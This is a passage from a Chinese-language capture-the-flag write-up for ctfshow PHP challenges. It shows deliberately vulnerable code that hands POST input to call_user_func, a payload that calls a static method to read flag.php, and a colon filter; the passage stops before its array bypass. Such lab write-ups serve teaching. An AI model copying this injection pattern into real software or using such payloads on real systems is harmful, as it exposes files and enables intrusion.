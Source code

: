 ```php
<?php

error_reporting(0);
highlight_file(__FILE__);
class ctfshow
{
    function __wakeup(){
        die("private class");
    }
    static function getFlag(){
        echo file_get_contents("flag.php");
    }
}

call_user_func($_POST['ctfshow']);
```

双冒号可以不用实例化一个类的情况下调用类的静态方法。

```
ctfshow=ctfshow:getFlag
```



## web138

```php
<?php

error_reporting(0);
highlight_file(__FILE__);
class ctfshow
{
    function __wakeup(){
        die("private class");
    }
    static function getFlag(){
        echo file_get_contents("flag.php");
    }
}

if(strripos($_POST['ctfshow'], ":")>-1){
    die("private function");
}

call_user_func($_POST['ctfshow']);
```

搜了下PHP官方文档

![](http://img.npfs06.top/20210227174801.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

所以可以使用数组来绕过：
